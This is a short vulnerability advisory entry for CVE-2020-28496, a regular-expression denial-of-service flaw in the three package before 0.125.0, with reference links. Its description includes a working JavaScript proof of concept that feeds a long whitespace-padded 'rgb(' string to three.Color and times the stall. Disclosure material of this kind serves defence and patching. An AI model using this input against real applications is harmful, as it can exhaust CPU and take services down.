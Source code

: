 ### [CVE-2020-28496](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28496)
![](https://img.shields.io/static/v1?label=Product&message=three&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%200.125.0%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Regular%20Expression%20Denial%20of%20Service%20(ReDoS)&color=brighgreen)

### Description

This affects the package three before 0.125.0. This can happen when handling rgb or hsl colors. PoC: var three = require('three') function build_blank (n) { var ret = "rgb(" for (var i = 0; i < n; i++) { ret += " " } return ret + ""; } var Color = three.Color var time = Date.now(); new Color(build_blank(50000)) var time_cost = Date.now() - time; console.log(time_cost+" ms")

### POC

#### Reference
- https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSNPM-1065972
- https://snyk.io/vuln/SNYK-JS-THREE-1064931

#### Github
- https://github.com/Leeft/three-sprite-texture-atlas-manager
- https://github.com/engn33r/awesome-redos-security
- https://github.com/yetingli/PoCs

